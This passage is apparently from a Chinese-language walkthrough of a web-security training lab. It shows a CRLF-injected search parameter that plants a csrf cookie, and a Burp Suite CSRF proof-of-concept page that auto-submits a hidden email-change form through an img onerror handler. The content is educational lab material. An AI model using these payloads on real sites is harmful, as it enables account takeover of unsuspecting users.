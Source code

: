 ```plain
/?search=QWQ%0d%0aSet-Cookie:csrf=aaaaaa
```

[![](assets/1705890866-a49065dafddeae67e4dadac55344ee84.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118105959-ab03f2ba-b5ad-1.png)  
随后在Burpsuite中构造CSRF载荷，随后插入自动提交并进行二次更改通过img标签引入可以更改头部信息的set-cookie字段

```plain
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0aee00e2039c4b81801cb78c00b500b3.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="longfei2234&#64;163&#46;com" />
      <input type="hidden" name="csrf" value="fake" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0aee00e2039c4b81801cb78c00b500b3.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

[![](assets/1705890866-85351cc6580ece691740be6dc4be46e9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118110040-c355ebca-b5ad-1.png)  
随后在漏洞利用服务器中托管载荷并分发  